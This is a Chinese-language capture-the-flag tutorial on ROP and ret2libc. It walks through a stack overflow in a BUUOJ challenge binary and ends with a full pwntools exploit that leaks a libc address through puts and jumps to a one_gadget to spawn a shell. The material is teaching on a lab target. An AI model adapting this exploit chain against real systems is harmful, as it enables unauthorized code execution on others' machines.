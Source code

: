 ROP概述
=====

ROP,即返回导向编程, 一个在CTF与真实世界的利用中都经常使用的手段. 同样地,这属于必学的基础内  
容, 需要完全理解与灵活运用.  
本文涵盖较多知识点,包括ROP,内存泄露,ret2libc. 如果能够独立做出本文中的例题,说明对这些概念就基  
本掌握了.ROP不是一个寄存器！！！  
详细解释这个手段之前,我们先来看下使用它的原因.

NX开启
====

NX,即不可执行,这个保护机制. 使用shellcode的前提是我们能控制允许代码执行的内  
存(如堆,栈). 但NX开启时,难道我们就无法利用栈溢出漏洞了吗?

ROP便是这一情况下最常用的利用手段. 我们通过寻找程序中已有的,以ret结尾的指令片段(这些片段被  
称为gadget),以劫持控制流.  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bb53de96137da288d886e22a4d65830412937d1e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bb53de96137da288d886e22a4d65830412937d1e.png)  
如上图,将返回地址覆盖为gadget1地址后, 程序返回到gadget1. gadget1完成我们想要进行的操作后,又  
会返回到gadget2, 如此一来,我们便能控制寄存器,并执行目标操作,如调用 system() 或 execve() .

例题
==

一如既往地,直接上题.  
<https://buuoj.cn/challenges#%5B%E7%AC%AC%E5%85%AD%E7%AB%A0%20CTF%E4%B9%8BPWN%E7%AB%A0%5DROP>  
(这题分还挺高的...不知道为什么)  
查看文件的架构与保护  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e54362de47b987b315754361533b571057dcf9f2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e54362de47b987b315754361533b571057dcf9f2.png)  
开启了NX, shellcode执行不了.  
没有开PIE,那么静态分析获取到的地址会是程序运行时的真实地址.  
也没有canary,因此我们可以随意栈溢出.

拖入IDA,程序很简单,使用了 gets 读取用户输入,因此存在栈溢出  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aff37ab2e397163dab5c852900943281548c8e3f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-aff37ab2e397163dab5c852900943281548c8e3f.png)

返回地址的偏移为 10+8=18.

寻找gadget
========

第一步,寻找可用的gadget  
程序中没有 system() 这样的函数,因此我们想寻找 syscall 以调用 execve() .  
此外,还需要找能够控制寄存器的Gadget (如 pop rdi ; ret )  
此处我们使用ROPgadget这个工具寻找gadget.  
<https://github.com/JonathanSalwan/ROPgadget>

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4fd995507f076a2003b11ae856f48ceb011f572c.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4fd995507f076a2003b11ae856f48ceb011f572c.png)  
有控制`rdi`,`rsi`等寄存器的`gadget`.  
不幸的是,没有`syscall`.

那该如何做呢? 这就引入了`ret2libc`的概念,程序是动态链接的,只要返回到`libc`当中,就能想怎么玩怎么玩  
了. 但首先,`libc`加载地址不固定,我们需要泄露出他的基地址.

完整思路
====

发现程序中有puts,可以利用它泄露出libc基址.  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-86e251cc2623c681c2582e52ad9465d57219737e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-86e251cc2623c681c2582e52ad9465d57219737e.png)

**完整思路如下:**

1. 通过栈溢出构造ROP链
2. 在ROP链中,利用`puts`泄露出`libc`中的地址,并使程序返回到 `main()` 函数
3. 计算出`one_gadget`地址

等等,什么是one\_gadget?

**one\_gadget**  
one\_gadget即是libc中现成的

```php
execve("/bin/sh",...,...)
```

代码片段，无需自己配置参数。这些片段可以通过使用`one_gadget`工具可以很方便的查找到。使用前提  
是能够泄露`libc`，且满足查找结果中显示的条件

4. 再次栈溢出, 覆盖返回地址为one\_gadget地址  
    暂时不能理解没关系,下面会一步步详细的讲

构造ROP链泄露Libc基址
==============

首先,返回地址的偏移为18

```php
padding = 'A'*18
payload = padding
```

其次,用于泄露地址的函数是 `puts` ,这是我们最好的选择,因为调用 `puts` 只需传一个参数,即只需控制rdi一  
个寄存器.  
那么,参数要是什么? 要输出什么才能泄露Libc当中的地址呢?  
答案是`GOT (Global Offset Table)`, `GOT`中会加载`Libc`当中对应函数的真实地址 (关于`GOT`和`PLT`的更多  
细节请自行阅读). 这题中,由于 `puts` 和 `gets` 都在 `main()` 函数当中被调用过, `GOT`中已加载好  
了 `puts` 和 `gets` 在`libc`中的真实地址. 我们只需泄露其中一个,此处选择泄露 `puts` 的真实地址.

即,在ROP中调用 `puts(got['puts'])` ,  
先在`ROPgadget`工具的输出中确定 pop rdi;ret 的地址,这个`gadget`能通过栈上的数据控制rdi寄存器

```php
elf = ELF("./rop")
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

pop_rdi = 0x00000000004005d3

#构造ROP链, 将GOT中puts的表项写入rdi寄存器,作为参数

payload += p64(pop_rdi)
payload += p64(puts_got)
#调用puts, 即puts(got['puts'])
payload += p64(puts_plt)
```

只是泄露了地址,程序就终止了,那可不行,在最后加上 main 函数的地址,使程序返回到 main 函数处继续运  
行

```php
main=0x400537
payload += p64(main)

target.recvuntil("hello\n")
target.sendline(payload)
```

成功泄露出libc中 puts 的真实地址,并返回到 main 函数  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fe044a1d1bfeceab38bae45a6c0ed6651680ca01.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-fe044a1d1bfeceab38bae45a6c0ed6651680ca01.png)

通过ret2one\_gadget getshell
==========================

接下来要做的便很简单了: 读取泄露出的地址,根据固定的偏移计算出one\_gadget真实地址,并让程序返  
回到那里.

查找one\_gadget可以这个使用工具  
[https://github.com/david942j/one\_gadget](https://github.com/david942j/one_gadget)  
注意,one\_gadget要想成功运行需要满足 constraints 下面所显示的条件,此处使用 0x10a38c  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6195a9a136bbdcfb5c8b204c85978902184423a4.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6195a9a136bbdcfb5c8b204c85978902184423a4.png)

完整exp
=====

```php
from pwn import *
import sys
if len(sys.argv) >1 and sys.argv[1] == 'r':
    target = remote("node3.buuoj.cn", )
else:
    #target = process("")
    #使用题目提供的libc
    target=process("./rop",env={"LD_PRELOAD":"./libc-2.271.so"})
    if(len(sys.argv)>1) and sys.argv[1]=='g':
        gdb.attach(target)

context.log_level='debug'

elf = ELF("./rop")
libC = ELF("./libc-2.271.so")
main=0x400537

padding = "A"*18
pop_rdi = 0x00000000004005d3

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

def s(in_put):
    target.recvuntil("hello\n")
    target.sendline(in_put)
def pwn():
    payload_leak = padding + p64(pop_rdi) + p64(puts_got) +p64(puts_plt) + p64(main)
    s(payload_leak)

    #读取libc中puts函数的地址
    puts_leak = u64(target.recvline().strip("\n").ljust(8,'\x00'))
    success("leak puts: "+hex(puts_leak))
    #计算libc基地址
    libc_leak = puts_leak - 0x809c0
    success("leak libc: "+hex(libc_leak))
    #计算one_gadget地址
    og = libc_leak + 0x10a38c
    payload = padding + p64(og)
    s(payload)

    target.interactive()
pwn()
```

成功getshell  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01b57c2b654f7fff26d0ebf6c7f9401c6f074e86.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-01b57c2b654f7fff26d0ebf6c7f9401c6f074e86.png)